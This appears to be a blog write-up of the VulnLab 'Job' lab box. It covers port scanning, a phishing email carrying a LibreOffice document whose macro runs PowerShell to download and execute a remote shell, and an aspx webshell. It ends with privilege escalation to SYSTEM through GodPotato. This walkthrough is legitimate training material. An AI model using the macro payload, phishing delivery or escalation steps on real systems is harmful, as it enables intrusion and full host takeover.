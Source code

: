 ```yaml
---
title: VulnLab Job
description: VulnLab Job
image:
  path: job.png
categories:
- VulnLab Boxes
- Active Directory
- Red Teaming
layout: post
media_subpath: /assets/posts/labs/vulnlab/boxes/job
tags:
- vulnlab-boxes
- active-directory
- red-teaming
---
```

# Job
## Recon
```
└─$ rustscan -g -a 10.10.95.158 -r 1-65535
10.10.95.158 -> [25,80,445,3389,5985]
```
```
└─$ nmap -sC -sV -p25,80,445,3389,5985 10.10.95.158                                                                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-27 21:50 +05
Nmap scan report for 10.10.95.158
Host is up (0.088s latency).

PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Job.local
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: JOB
|   NetBIOS_Domain_Name: JOB
|   NetBIOS_Computer_Name: JOB
|   DNS_Domain_Name: job
|   DNS_Computer_Name: job
|   Product_Version: 10.0.20348
|_  System_Time: 2024-12-27T16:49:21+00:00
| ssl-cert: Subject: commonName=job
| Not valid before: 2024-12-26T16:44:58
|_Not valid after:  2025-06-27T16:44:58
|_ssl-date: 2024-12-27T16:50:02+00:00; -1m18s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: Host: JOB; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-27T16:49:17
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1m18s, deviation: 0s, median: -1m18s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.20 seconds

```
## User
We have interesting web page about sending CV as libre office document, which indicates a potential attack path (considering 25 port is open) 

![](1.png)

Create malicious `odt` (check [0xdf's blog](https://0xdf.gitlab.io/2020/02/01/htb-re.html)). The content of the macros:

```
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell ""IEX(New-Object Net.WebClient).DownloadString('http://10.8.4.147/shell.txt')""")
End Sub
```

Now, we need to generate the file and send it
```
└─$ sendemail -s job.local -f "pentest <pentest@mail.vl>" -t career@job.local -o tls=no -m "Hello. I attached CV for review." -a cv.odt   
Dec 27 22:21:57 kali sendemail[113821]: Email was sent successfully!
```
```
└─$ swaks --to career@job.local --header "CV" --body "Hello. I attached CV for review." --attach cv.odt --server job.local 
```

After few minutes, we get the connection

![](2.png)


## Root
If we check privileges, we see that user is a member of `developer` group
```
C:\>whoami /all

USER INFORMATION
----------------

User Name      SID                                          
============== =============================================
job\jack.black S-1-5-21-3629909232-404814612-4151782453-1000


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes                                        
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
JOB\developers                         Alias            S-1-5-21-3629909232-404814612-4151782453-1001 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                     Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Looks like this group has full privileges over `wwwroot` folder
```
C:\inetpub>icacls wwwroot
wwwroot JOB\developers:(OI)(CI)(F)
        BUILTIN\IIS_IUSRS:(OI)(CI)(RX)
        NT SERVICE\TrustedInstaller:(I)(F)
        NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
        BUILTIN\Users:(I)(RX)
        BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
        CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

We can try uploading `aspx` webshell and escalate our privileges
```
PS C:\inetpub\wwwroot> iwr http://10.8.4.147/cmdasp.aspx -o cmd.aspx
PS C:\inetpub\wwwroot> 

```

![](3.png)

We see that `iis apppool\defaultapppool` has `SeImpersonatePrivilege`, so let's use `GodPotato`
```
PS C:\programdata> iwr http://10.8.4.147/nc64.exe -o nc.exe
PS C:\programdata> iwr http://10.8.4.147/GodPotato.exe -o gp.exe
PS C:\programdata>
```

Now, we can get shell and then run potato

![](4.png)

As a result we get our system shell 

![](5.png)

[https://api.vulnlab.com/api/v1/share?id=648703f4-19d4-47ac-b6e4-efcf8a26491a](https://api.vulnlab.com/api/v1/share?id=648703f4-19d4-47ac-b6e4-efcf8a26491a)